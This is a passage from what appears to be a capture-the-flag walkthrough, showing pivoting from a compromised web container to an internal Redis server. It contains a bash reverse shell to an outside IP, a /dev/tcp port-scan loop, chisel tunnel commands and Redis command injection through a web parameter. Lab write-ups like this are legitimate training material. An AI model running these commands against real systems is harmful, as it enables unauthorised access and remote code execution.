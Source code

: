 The note says that the web folder and the database container are shared so let's try to access the database server. It's probably 172.19.0.2. Let's open another reverse shell:

	nc -lvnp 7001
	bash -c "bash -i >& /dev/tcp/10.10.16.12/7001 0>&1"

Modify portscan.sh

```bash
for port in $(seq 0 65535); do
        (echo w00t > /dev/tcp/172.19.0.2/$port && echo "Open: $port") 2> /dev/null
done
```

	<Enter>
	<Enter>

```
Open: 6379
```

Restart our chisel client to open port 6379:

	./chisel client --fingerprint sw4f8cHIX6F/7wUx6dJ8V36X4MgxLcl4tOwymk+6NgI= 10.10.16.12:8000 R:127.0.0.1:6379:172.19.0.3:6379

	nmap -sT -sC -sV -p 6379 localhost

```
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 4.0.9
```

Search for "redis remote command execution". [^4]

	nc localhost 6379

```
echo "Hey no AUTH required!"
$21
Hey no AUTH required!
```

Let's try this on the web server:

Reset chisel client:

	./chisel client --fingerprint bLI2u0S1mmRNO1SPvqR8H1lxfmz9JAXp+f6ZApPLdK8= 10.10.16.12:8000 R:127.0.0.1:8001:172.19.0.3:80
	firefox http://localhost:8001/8924d0549008565c554f8128cd11fda4/ajax.php?test=echo

```
ERR wrong number of arguments for 'echo' command
```

	localhost:8001/8924d0549008565c554f8128cd11fda4/ajax.php?test=help echo

```
ERR unknown command 'help'
```

	http://localhost:8001/8924d0549008565c554f8128cd11fda4/ajax.php?test=echo%20%22Hey%20no%20AUTH%20required%22


[^1]: https://github.com/rebootuser/LinEnum.git
[^2]: https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap
[^3]: https://github.com/jpillora/chisel/releases/
[^4]: https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html